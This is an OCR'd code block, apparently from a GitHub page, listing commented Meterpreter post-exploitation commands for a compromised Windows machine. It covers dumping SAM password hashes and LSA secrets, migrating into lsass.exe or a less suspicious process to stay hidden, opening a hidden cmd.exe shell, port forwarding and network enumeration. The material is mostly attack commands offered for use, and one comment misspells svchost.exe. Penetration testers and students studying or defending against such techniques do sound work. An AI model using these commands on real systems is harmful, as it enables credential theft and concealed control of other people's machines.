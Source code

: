 ```
# Dumps the contents of the SAM database
hashdump      

# Dumps ...
lsa_dump_sam

# Meterpreter LSA Secrets Dump
lsa_dump_secrets

# Enumerate the modules available at this meterpreter session
use -l   

# load a specific module
use <name of module>  

# View all processes run by the system. This allows us to choose one in order to migrate the process of our persistent connection in order to have one less suspicious. 
ps -U SYSTEM  

# Change to a process
migrate  <pid>        
migrate -N lsass.exe
# -N   Look for the lsass.exe process and migrate the process into that. We can do this to run the command: hashdump (we’ll get hashes to use them with john the ripper or ophcrack). Also, we can choose a less suspicious process such as svhost.exe and migrate there.

# Get a windows shell
execute -f cmd.exe -i -H

# Display the host ARP cache
arp           

# Display the current proxy configuration
get proxy

# Display interfaces
ifconfig       

# Display the network connections
netstat       

# Forward a local port to a remote service
portfwd       

# Resolve a set of hostnames on the target
resolve     

# Send Session to backgroud
bg
```
